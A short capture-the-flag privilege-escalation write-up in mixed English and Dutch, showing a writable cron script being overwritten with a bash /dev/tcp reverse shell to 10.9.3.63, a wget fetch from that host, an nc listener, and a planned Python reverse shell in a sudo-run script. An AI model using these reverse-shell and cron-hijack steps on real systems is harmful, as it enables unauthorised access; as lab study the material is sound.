

## Priv Esc

### Steps to reproduce

#### 1. User Toby

cant access flag_4.txt, need to be user toby

Note.txt says "cronjobs"

```
cat /etc/crontab
```

```
*/1 * * * * mat /home/toby/jobs/cow.sh
```

```
sudo -u toby /bin/bash
```

#### 2. User Mat

we gonna edit this bitch to reverse shell

```
*/1 * * * * mat /home/toby/jobs/cow.sh
```

```
nano cow.sh

[vervangen met content]
#!/bin/bash
bash -i >& /dev/tcp/10.9.3.63/4445 0>&1
[/vervangen met content]
wget http://10.9.3.63:8088/cow.sh
chmod +x cow.sh
nc -lvnp 4445
```

**After a shit long time we got user matt**



#### 3. User Will

**Python scripts that can be run as sudo willy**

*we kunnen cmd.py aanpassen want we kunnen schrijven in deze klere folder*

- Zetten er een python reverse shell in.
- `/usr/bin/python3 /home/mat/scripts/will_script.py * `


